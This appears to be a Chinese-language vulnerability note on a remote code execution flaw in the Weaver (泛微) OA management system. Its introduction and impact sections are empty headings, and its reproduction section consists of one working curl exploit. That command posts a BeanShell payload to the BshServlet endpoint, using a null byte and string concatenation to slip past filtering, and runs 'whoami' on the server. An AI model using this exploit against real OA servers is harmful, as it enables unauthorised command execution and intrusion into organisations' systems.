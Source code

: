 ```yaml
---
title: 泛微OA管理系统RCE漏洞
id: zhfly3330
---
```


# 泛微OA 管理系统RCE漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
curl http://0-sec.org:8000/weaver/bsh.servlet.BshServlet -d 'bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw' 
```
